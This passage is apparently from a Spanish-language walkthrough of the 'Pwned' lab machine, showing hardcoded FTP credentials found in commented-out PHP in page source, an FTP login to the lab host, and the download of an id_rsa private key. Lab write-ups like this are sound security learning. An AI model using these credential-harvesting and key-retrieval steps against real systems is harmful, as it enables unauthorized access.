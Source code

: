 Abrimos ese nuevo recurso:

![](/assets/images/pwned/vuln.png){: .align-center}

Y si hacemos ctrl+u:

~~~bash
<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//		echo "welcome"
//		exit();
// }
// else 
//	echo "Invalid creds"
// }
?>
~~~

¡BINGO! parece que hemos obtenido datos de acceso FTP


### Puerto 21

Accedemos con los datos obtenidos:

~~~bash
❯ ftp -p 192.168.0.16
Connected to 192.168.0.16.
220 (vsFTPd 3.0.3)
Name (192.168.0.16:kaian): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/home/ftpuser" is the current directory
ftp> ls -la
227 Entering Passive Mode (192,168,0,16,92,74).
150 Here comes the directory listing.
drwxrwxrwx    3 0        0            4096 Jul 09  2020 .
drwxr-xr-x    5 0        0            4096 Jul 10  2020 ..
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls -la
227 Entering Passive Mode (192,168,0,16,246,160).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 .
drwxrwxrwx    3 0        0            4096 Jul 09  2020 ..
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
ftp> mget *
mget id_rsa? yes
227 Entering Passive Mode (192,168,0,16,169,59).
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
226 Transfer complete.
~~~